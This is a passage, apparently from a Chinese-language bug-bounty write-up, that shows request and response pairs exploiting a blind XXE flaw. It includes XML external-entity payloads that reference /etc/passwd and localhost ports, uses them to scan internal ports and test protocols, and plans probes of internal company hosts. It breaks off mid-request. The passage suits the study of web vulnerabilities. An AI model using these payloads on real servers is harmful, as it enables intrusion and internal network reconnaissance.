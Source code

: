 响应：

```
The request is invalid: The request content was malformed:
/etc/passwdxxx (No such file or directory)
```

好的，这非常有用，但还不是最好。我们如何将这个XXE盲注漏洞转变为端口扫描程序呢？

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://localhost:22/"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The request is invalid: The request content was malformed:
Invalid Http response
```

这样一来，就意味着我们可以枚举内部服务。尽管仍然不是我想要的结果，但至少有一些收获了。这种类型的XXE盲注实际上与服务器端请求伪造（SSRF）漏洞的行为类似：攻击者可以运行内部HTTP请求，但无法读取响应。

我想知道，是否可以应用任何其他与SSRF相关的技术，以便更好地利用这个XXE盲注漏洞。我们需要检查对其他协议是否支持，包括https、gopher、ftp、jar、scp等。我尝试了一些没有结果的协议，它们产生了有用的错误消息，如下面的请求和响应所示。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [ &lt;!ENTITY % ext SYSTEM "gopher://localhost/"&gt; %ext; ]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The request is invalid: The request content was malformed:
unknown protocol: gopher
```

这很有趣，因为它将用户提供的协议打印到错误消息之中。我们记录下这种利用方式，留待以后使用。

通过SSRF盲注，我们看看是否可以访问任何有意义的内部Web应用程序。由于我进行漏洞挖掘的公司似乎与大量开发人员合作，在其GitHub中出现了大量对x.company.internal格式的内部主机的引用，所以我发现了一些看起来很有希望的内部资源，例如：



wiki.company.internal

jira.company.internal

confluence.company.internal

在此前，我们发现有防火墙阻止了流量的传出，我想验证内部流量是否也被阻止，或者内部网络是否更受信任。

请求：
